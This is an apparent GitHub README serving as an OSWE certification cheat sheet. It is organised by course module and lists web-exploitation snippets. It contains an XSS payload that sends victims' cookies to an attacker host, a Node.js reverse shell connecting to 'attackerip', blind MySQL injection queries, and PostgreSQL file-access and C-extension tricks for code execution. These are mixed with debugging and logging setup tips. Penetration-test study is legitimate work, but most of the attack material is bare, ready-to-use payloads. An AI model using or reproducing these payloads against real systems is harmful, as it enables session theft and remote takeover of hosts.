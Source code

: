 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    <script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    function addImage() {<br>
    var img = document.createElement('img');<br>
    img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    document.body.appendChild(img);<br>
    }<br>
    addImage();<br>
    
4. Set cookie by web developer console<br>
    javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("POST", url, true)<br>
    xhr.send(data)<br>
    
6. XHR GET Request <br>
    xhr= new XMLHttpRequest()<br>
    xhr.open("GET", url, true)<br>
    xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            [mysqld]<br>
            general_log_file = /var/log/mysql/mysql.log<br>
            general_log = 1<br>
    systemctl restart mysql        //Restart MySQL<br>
    tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    echo "any message";<br>
    
4. Dump information about varaible<br>
    var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    mysql> select ascii(substring((select version()),1,1))=53;  /** use with "or" boolean **/<br>
    
8. Create ZIp file using Python2 <br>
    !/usr/bin/python <br>
    import zipfile <br>
    from cStringIO import StringIO<br>

    def build_zip():<br>
        f = StringIO()<br>
        z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)<br>
        z.writestr('folder/file.txt', 'secret')<br>
        z.close()<br>
        zip = open('zip.zip','wb')<br>
        print f.getvalue()<br>
        zip.write(f.getvalue())<br>
        zip.close()<br>
    
    build_zip()<br>

Module : PHP Type Juggling Vulnerability : 
1.  Configure SMTP Server<br>
    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25 & /* & for run in background */<br>
    
Module : ManageEngine Application Manager AMUserResourcesSyncServlet SQL(Postgres) Injection & RCE : <br>
1.  web.xml determine how URLs mapped<br>
2.  Tool JD-GUI use to decompile java<br>
3.  Find SQL injection vulnerability using below regular expression<br>
        ^.*?query.*?select.*?<br>
4.  Enable postgres logging by uncommenting below line in postgresql.conf file<br>
        log_statement = 'all'<br>
5.  postgre cli
        psql -U username -p 15432  /* p=port, /<br>
6.  Alternative of single quote(') is duble doller sign($$)<br>
7.  decode string in postgres<br>
        select convert_from(decode('QVdBRQ==', 'base64'), 'utf-8');<br>
8.  Using CHR and String Concatenation<br>
        SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);<br>
9.  Accessing the File System in postgres<br>
        COPY <table_name> from <file_name><br>
        COPY <table_name> to <file_name><br>
10. PostgreSQL Extensions<br>
        CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
        
Module : The Bassmaster Plugin (Nodejs) : 
1. JavaScript reverse shell
     var net = require("net"), sh = require("child_process").exec("/bin/bash");
     var client = new net.Socket();
     client.connect(53, "attackerip",
     function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
     sh.stderr.pipe(client);});

Module : DotNetNuke Cookie Deserialization RCE
1. XmlSerializer Limitations
        XmlSerializer is only able to serialize public properties and fields of an object.
2. For better debugging experirence modify the debugging dll in dnSpy tool
          [assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default | DebuggableAttribute.DebuggingModes.DisableOptimizations |
           DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints | DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]
3. XML Serialization & Deserialization method
    XmlSerializer.serialize() and XmlSerializer.deserialize(reader)
4. Java Serialization & Deserialization method
    Deserialization : inputObjectStream.readObject() and Serialization: outputObjectStream.writeObject()
    
